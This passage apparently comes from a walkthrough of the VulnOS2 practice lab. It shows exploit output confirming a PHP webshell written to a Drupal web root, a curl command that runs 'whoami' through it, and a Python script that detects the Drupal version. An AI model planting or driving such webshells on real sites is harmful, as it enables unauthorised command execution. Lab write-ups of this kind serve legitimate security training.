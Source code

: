 ```bash
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://example.net/jabc/s.php' -d 'c=whoami'
VulnOSv2>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

and now we have a prompt facilitating interaction with a webshell which, of course, runs as the unprivleged Apache `www-data` user. From here, we can escalate privileges via any of the methods detailed in the other walkthroughs.


## Solution 2
There is an additional location where we can check for the version number. Often, the HTML page at the root of the Drupal installation - which in the case of VulnOS2 resides at `/jabc/` - contains a `<meta/>` tag in the document `<head>` which conains the major version number. In our case, the full HTML element looks like this:

```html
...
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
...
```

Below is a simple Python3 script I've created which - given a Drupal URL - will identify the Drupal version based on this tag. 

```python
import re
import requests
import bs4
import sys
import urllib.parse

DRUPAL_VERSION_PATTERN = re.compile('Drupal ([0-9]+).*')


def get_drupal_version(url):
    scheme, netloc, path, params, query, frag = urllib.parse.urlparse(url)
    drupal_root = urllib.parse.urlunparse((scheme, netloc, path, '', '', ''))

    response = requests.get(drupal_root)
    response.raise_for_status()

    soup = bs4.BeautifulSoup(response.text, 'html.parser')

    try:
        version_tag = soup.head.find_all('meta',
                                         attrs={
                                             'name': 'Generator',
                                             'content': DRUPAL_VERSION_PATTERN,
                                         },
                                         recursive=False).pop()
        return DRUPAL_VERSION_PATTERN.match(version_tag['content']).groups()[0]
    except IndexError:
        raise Exception('Unable to determine Drupal version')
		

if __name__ == '__main__':
	drupal_version = get_drupal_version(sys.argv[1])
	print(drupal_version)
```
